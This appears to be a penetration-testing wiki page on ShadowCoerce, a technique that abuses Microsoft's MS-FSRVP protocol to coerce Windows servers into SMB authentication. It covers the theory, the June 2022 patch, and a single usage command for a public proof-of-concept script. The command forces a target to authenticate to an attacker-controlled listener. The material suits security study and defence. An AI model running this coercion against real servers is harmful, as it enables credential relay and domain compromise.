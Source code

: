 ```yaml
---
authors: ShutdownRepo
---
```


# MS-FSRVP abuse (ShadowCoerce)

## Theory

MS-FSRVP is Microsoft's File Server Remote VSS Protocol. It's used for creating shadow copies of file shares on a remote computer, and for facilitating backup applications in performing application-consistent backup and restore of data on SMB2 shares ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)). That interface is available through the `\pipe\FssagentRpc` SMB named pipe.

In late 2021, [Lionel GILLES](https://twitter.com/topotam77) published [slides](https://twitter.com/topotam77/status/1475701014204461056) showcasing [PetitPotam](ms-efsr.md) and demonstrating the possibility of abusing the protocol to coerce authentications on the last two slides.

Similarly to other MS-RPC abuses, this works by using a specific method relying on remote UNC paths. In this case, at the time of writing, two methods were detected as vulnerable: `IsPathSupported` and `IsPathShadowCopied`.

The coerced authentications are made over SMB. Unlike other similar coercion methods (MS-RPRN printerbug, MS-EFSR petitpotam), I doubt MS-FSRVP abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP.

A requirement to the abuse is to have the "File Server VSS Agent Service" enabled on the target server.

![](<./assets/File Server VSS Agent Service.png>)

> [!TIP]
> In June 2022, Microsoft patched [CVE-2022-30154](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30154) in [KB5014692](https://support.microsoft.com/en-us/topic/kb5015527-shadow-copy-operations-using-vss-on-remote-smb-shares-denied-access-after-installing-windows-update-dated-june-14-2022-6d460245-08b6-40f4-9ded-dd030b27850b), which also patched this coercion attack.

## Practice

The following Python proof-of-concept ([https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)) implements the `IsPathSupported` and `IsPathShadowCopied` methods.

> [!NOTE]
> For the proof of concept to work, using a proper security provider (`RPC_C_AUTHN_WINNT`) and authentication level (`RPC_C_AUTHN_LEVEL_PKT_PRIVACY`) can required. It is enabled by default in the script.

```bash
shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

![](<./assets/MS FSRVP abuse example.png>)

> [!NOTE]
> In my tests, the coercion needed to be attempted twice in order to work when the FssAgent hadn't been requested in a while. In short, run the command again if it doesn't work the first time.

## Resources

Topotam's tweet: [https://twitter.com/topotam77/status/1475701014204461056](https://twitter.com/topotam77/status/1475701014204461056)

Topotam's slides: [https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir](https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir)

[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

[https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc](https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc)